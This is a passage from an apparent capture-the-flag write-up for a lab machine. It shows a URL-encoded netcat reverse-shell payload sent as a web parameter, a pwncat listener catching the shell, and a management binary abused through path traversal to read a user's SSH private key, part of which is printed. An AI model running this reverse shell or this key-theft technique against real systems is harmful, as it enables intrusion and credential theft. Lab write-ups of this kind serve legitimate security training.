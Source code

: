 `www-data 	8794732211 	11`

## Inital Access

I then created a URL encoded reverse shell from [revshells.com](https://revshells.com):

`?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.***.***%204444%20%3E%2Ftmp%2Ff`

And setup a listener locally using `pwncat`.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

And we get a response!

```
[05:17:22] 10.10.11.232:51072: upgrading from /usr/sbin/nologin to /usr/bin/bash
[05:17:23] 10.10.11.232:51072: registered new host w/ db
[05:17:24] listener: 10.10.16.9:4444: linux session from 10.10.11.232:51072
           established
```

## User Flag

Looking for files owned by the user `jack` (seen in the `/home` directory) shows some interesting results in the `/opt` folder.

```
$ find / -user jack 2>/dev/null
/home/jack
/opt/manage
/opt/manage/README.txt
/opt/manage/execute_query
$ ls /opt/manage
README.txt execute_query
$ cat README.txt
Web application Management

Use the binary to execute the following task:
	- 1: Creates the database structure and adds user admin
	- 2: Creates fake players (better not tell anyone)
	- 3: Resets the admin password
	- 4: Deletes all users except the admin
```

After, **alot** of time... I found using values <4 for the binary input is a read file function, so we can read the SSH keys of `jack` by doing this:

```
$ ./execute_query 5 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
J/tSzgoR9Fko8I1UpLnHCLz2Ezsb/MrLCe8nG5TlbJrrQ4HcqnS4TKN7DZ7XW0bup3ayy1
kAAZ9Uot6ep/ekM8E+7/39VZ5fe1FwZj4iRKI+g/BVQFclsgK02B594GkOz33P/Zzte2jV
Tgmy3+htPE5My31i2lXh6XWfepiBOjG+mQDg2OySAphbO1SbMisowP1aSexKMh7Ir6IlPu
nuw3l/luyvRGDN8fyumTeIXVAdPfOqMqTOVECo7hAoY+uYWKfiHxOX4fo+/fNwdcfctBUm
pr5Nxx0GCH1wLnHsbx+/oBkPzxuzd+BcGNZp7FP8cn+dEFz2ty8Ls0Mr+XW5ofivEwr3+e
30OgtpL6QhO2eLiZVrIXOHiPzW49emv4xhuoPF3E/5CA6akeQbbGAppTi+EBG9Lhr04c9E
2uCSLPiZqHiViArcUbbXxWMX2NPSJzDsQ4xeYqFtAAAFiO2Fee3thXntAAAAB3NzaC1yc2
```